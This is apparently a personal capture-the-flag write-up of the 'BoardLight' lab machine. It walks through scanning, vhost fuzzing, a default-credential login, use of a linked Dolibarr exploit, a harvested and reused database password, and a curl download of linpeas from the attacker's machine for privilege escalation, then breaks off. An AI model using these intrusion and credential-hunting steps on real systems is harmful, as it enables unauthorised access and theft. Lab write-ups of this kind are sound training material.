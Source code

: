 # Enumeration

Starting with Nmap:
`nmap -sV -sC -Pn 10.10.11.11`

``` 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
```

Adding to etc/hosts:
`echo '10.10.11.11 board.htb' | sudo tee -a /etc/hosts`

Lots of broken buttons on this page. There's a contact us page with a form. Seems a good place to start.

All of the buttons are Get requests even the one on the contact form. And it doesn't seem to be submitting my information. The source on the page supports this...

Gonna fuzz for other pages maybe.

`ffuf -w /Users/noneya/Useful/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://board.htb/FUZZ -e .php -ic`

There are images and js directories but I don't have access to them.

Maybe I need to fuzz for some subdomains or vhosts.

Sub-Domain:
`ffuf -w /Users/noneya/Useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.board.htb -v`

Nope.

VHosts:
`ffuf -w /Users/noneya/Useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://board.htb -H 'Host: FUZZ.board.htb' `

A vhost called crm seems to exist.

Adding to etc/hosts.

It has a login page... 

The password reset page just asks for a security code and the login...

I see [this page](https://www.swascan.com/security-advisory-dolibarr-17-0-0/) seems to indicate I can get remote code execution if I can get authenticated.

Gonna fuzz for other directories or pages on crm.board.htb.

There are a lot of other directories and most I don't have access to.

I just tried admin:admin and it let me in...

There is an exploit script on [this GitHub repo](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py) gonna try that to see if I can get it. Trying to create a page manually on my end seems to have failed. Not sure if its the user or not.

The script worked. So I must have missed something the other way.

# Foothold

Now that I have a foothold I can get the user flag.

`find -name '*user.txt' 2>/dev/null`

hmm that didnt work

For pretty shell:
```
script /dev/null -qc /bin/bash
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

`sudo -l` is a miss too.

How many user are on the box ? (`cat /etc/passwd | grep /bin/bash`)

I can't help but notice it says www-data@boardlight as my user. Does that mean I am still in www-data, which is why I can't see the user flag?

Looks like I have access to Python3... Which might be helpful later.

In /etc/security there is a fill call access.conf, but it doesn't contain anything but comments.

There is a Home dir, with a user called larissa, but I don't have access. Seems I need to get her password and ssh in probably.

Lets look for some .dat files maybe:
`find / -name '*.dat' 2>/dev/null`

Theres a passwords.dat file but I don't have access.

I can try this to see if I can grep for it.
`find / -name '*.dat' 2>/dev/null | xargs grep -i 'Password'`

Lets looks for passwords:
`grep -ri "password" / 2>/dev/null`

Okay so I ended needing some help here so I went to the discussion for this box.

The comments mentioned finding a config file but no matter how I grepped I couldn't find anything. So I looked up config files for Dolibar and found I need to find this file conf.php.

Once I did here `/html/crm.board.htb/htdocs/conf`.

I cat the file and see `$dolibarr_main_db_pass='serverfun2$2023!!';`

Then I tried to ssh into the server with `ssh larissa@crm.board.htb` and that password and it worked.

That allowed me to get the user file.

Now for Priv Esc.

# Priv Esc

I have access to curl so I get the linpeas.sh file. 

Start a python server inside my linpeas directory:
```
cd /Users/noneya/Useful/Tools/linpeas
python3 -m http.server 8001
```

Then I get the file

```
cd /tmp
curl http://10.10.14.69:8001/linpeas.sh > /tmp/linpeas.sh
```

Then get the output:
`bash linpeas.sh > /home/larissa/results.txt`

There an interesting host in the output...
```
127.0.1.1	boardlight
```

